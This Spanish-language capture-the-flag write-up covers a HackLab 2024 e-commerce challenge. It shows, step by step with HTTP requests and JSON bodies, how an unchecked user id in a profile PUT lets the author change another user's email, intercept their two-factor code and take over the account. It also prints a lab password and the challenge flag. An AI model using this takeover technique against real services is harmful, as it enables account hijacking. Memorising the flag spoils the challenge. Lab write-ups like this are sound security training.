# Desafío 33 - ECommerce (HackLab 2024)

**Plataforma:** HackLab (SoftwareSeguro)  
**Edición:** HackLab 2024  
**Categoría:** Auth  

## Análisis

El sistema tiene autenticación en dos pasos para el usuario Juan. La vulnerabilidad permite modificar el email de otro usuario (sin autenticación adicional) a través de un endpoint de perfil mal protegido.

## Explotación

Se hace login con María para explorar la aplicación:

```http
POST /login/ HTTP/2
Content-Type: application/json

{
  "username": "maria",
  "password": "120c7c1bba3421"
}
```



La respuesta trae un `unique_id` (distinto en cada login) y un `user_id`:

```json
{
  "success": true,
  "unique_id": "fbbd1dd9-0cca-4c91-8d2e-94015429b445",
  "user_id": 1
}
```



Probando enviar `"unique_id": null` en un segundo intento, la respuesta sigue siendo `success: true`, lo que confirma que ese campo no se valida correctamente en el backend.



Explorando la tienda con la sesión de María se listan los productos disponibles (`GET /productos/`):



Entre ellos está el producto requerido para el desafío, **Memoria RAM 16GB DDR4** (`id: 5`):

```json
{
  "nombre": "Memoria RAM 16GB DDR4",
  "descripcion": "Kit de memoria RAM DDR4 de 16GB a 3200MHz para alto rendimiento.",
  "precio": "80.00",
  "id": 5
}
```



Interceptando `GET /compras/` se obtiene el detalle de la cuenta de María, incluido su ID real de usuario (`id_usuario: 2`):



```json
{
  "nombre": "Monitor 27'' 4K",
  "precio": "450.00",
  "id_producto": 3,
  "id_usuario": 2,
  "username": "maria",
  "email": "maria@hacklab.com",
  "first_name": "María",
  "last_name": "Torres"
}
```



Juan tiene verificación en dos pasos y enviar un código incorrecto es rechazado:



```http
HTTP/2 401 Unauthorized

{
  "success": false,
  "error": "Código incorrecto."
}
```



En la cuenta de María, la pestaña de perfil muestra sus datos con un botón **Modificar** deshabilitado:


Interceptando de nuevo el `GET /profile/` se recupera la estructura exacta del JSON para armar la petición de modificación:



```json
{
  "username": "maria",
  "email": "maria@hacklab.com",
  "first_name": "María",
  "last_name": "Torres",
  "id": 2
}
```



Se prueba un **POST** a `/profile/` → `"error": "Método no permitido"`.


Se prueba un **PUT** con todos los campos del JSON (incluyendo `username`) → el servidor acepta el método pero rechaza el cambio de nombre de usuario.



```json
{
  "error": "No se puede cambiar el username."
}
```



Al **borrar el campo `username`** del PUT y modificar el email, la petición es aceptada:

```json
{
  "email": "holamundo@hacklab.com",
  "first_name": "cheto",
  "last_name": "hola",
  "id": 2
}
```



Se confirma el cambio en el perfil de María (prueba de concepto antes del ataque real):


Como el endpoint no valida que el `id` del PUT corresponda al usuario autenticado, se repite la petición cambiando el `id` a `1` (Juan) y el email por uno propio. El perfil de Juan queda modificado:

```json
{
  "email": "gonzaorban@gmail.com",
  "first_name": "Juan",
  "last_name": "Perez",
  "id": 1
}
```



Al volver a ingresar con Juan, el código de verificación en dos pasos llega al email propio recién configurado:



Se completa la autenticación de Juan con ese código:


Y se realiza la compra del producto requerido, **Memoria RAM 16GB DDR4**:





## Flag

```
fe01348e4bf437fe03688896f7889107
```


